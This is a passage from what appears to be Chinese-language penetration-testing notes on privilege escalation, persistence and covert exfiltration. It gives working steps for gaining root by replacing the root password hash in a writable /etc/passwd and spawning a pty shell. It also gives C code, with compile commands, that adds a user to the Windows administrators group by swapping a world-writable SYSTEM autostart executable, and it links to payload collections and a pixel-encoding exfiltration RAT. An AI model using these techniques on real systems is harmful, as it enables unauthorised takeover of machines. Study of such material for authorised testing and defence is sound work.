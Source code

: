 **若 /etc/passwd 文件可修改**
```bash
openssl passwd -1   输入你想改成的密码,用得到的 hash 去替换 root 行的 x
python -c 'import pty; pty.spawn("/bin/bash")'
```
然后 su root,输入上一步改的密码

**CVE 漏洞利用**
- 见 [Linux 渗透笔记](./Linux渗透笔记.md#提权)

---

## windows

**教程**
- https://www.fuzzysecurity.com/tutorials/16.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**CVE 漏洞利用**
- 见 [windows 渗透笔记](./windows渗透笔记.md#提权)

---

# 权限维持
**笔记**
- [权限维持](./权限维持笔记.md)

---

# 隐匿攻击
## 隐蔽隧道
- [ICMP隐蔽隧道从入门到精通](https://www.anquanke.com/post/id/152046)

## 侧信道
**PTP-RAT**
- https://www.pentestpartners.com/security-blog/exfiltration-by-encoding-data-in-pixel-colour-values/
- https://github.com/pentestpartners/PTP-RAT
